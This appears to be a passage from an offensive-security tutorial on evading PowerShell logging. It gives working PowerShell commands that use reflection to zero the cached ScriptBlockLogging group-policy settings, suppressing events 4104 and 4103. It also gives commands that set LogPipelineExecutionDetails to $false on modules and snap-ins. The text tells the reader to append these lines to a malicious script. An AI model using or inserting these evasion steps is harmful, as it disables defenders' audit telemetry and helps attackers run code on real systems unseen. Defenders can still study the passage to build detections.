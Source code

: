 At step one, we must use reflection to obtain the type of **System.Management.Automation.Utils** and identify the GPO cache field: **cachedGroupPolicySettings**

> **$GroupPolicySettingsField = \[ref] Assembly.GetType(‘System.Management.Automation.Utils’).GetField(‘cachedGroupPolicySettings’, ‘NonPublic, Static’)**

> **$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)**

At step two, we can leverage the GPO variable to modify either event provider setting to **0**. **EnableScriptBlockLogging** will control **4104** events, limiting the visibility of script execution. Modification can be accomplished by writing to the object or registry directly.

> **$GroupPolicySettings\[‘ScriptBlockLogging’]\[‘EnableScriptBlockLogging’] = 0**

At step three, we can repeat the previous step with any other provider settings we want to **EnableScriptBlockInvocationLogging** will control **4103** events, limiting the visibility of cmdlet and pipeline execution.

> **$GroupPolicySettings\[‘ScriptBlockLogging’]\[‘EnableScriptBlockInvocationLogging’] = 0**

We can compile these steps together and append them to a malicious PowerShell script. Use the PowerShell script provided and experiment with this technique.

![](https://cdn-images-1.medium.com/max/800/1*C9a-T834v06tidIuLB9fAg.png)

In the first terminal, we see there are three events generated when the PowerShell script is run. In the second terminal, after the script is executed we see that there are no events generated from running a command.

Within PowerShell, each module or snap-in has a setting that anyone can use to modify its logging functionality. From the **Microsoft docs**, “When the **LogPipelineExecutionDetails** property value is **TRUE** (**$true**), Windows PowerShell writes cmdlet and function execution events in the session to the Windows PowerShell log in Event Viewer.” An attacker can change this value to **$false** in any PowerShell session to disable a module logging for that specific session. The **Microsoft docs** even note the ability to disable logging from a user session, “To disable logging, use the same command sequence to set the property value to FALSE **($false**).”

At a high-level the log pipeline technique can be broken up into four steps:

1\. Obtain the target module.

2\. Set module execution details to **$false.**

3\. Obtain the module snap-in.

4\. Set snap-in execution details to **$false.**

> **$module = Get-Module Microsoft.PowerShell.Utility # Get target module**

> **$module.LogPipelineExecutionDetails = $false # Set module execution details to false**

> **$snap= Get-PSSnapin Microsoft.PowerShell.Core # Get target ps-snapin**

> **$snap.LogPipelineExecutionDetails = $false # Set ps-snaptn execution details to false**

The script block above can be appended to any PowerShell script or run in a session to disable module logging of currently imported modules.

* * *
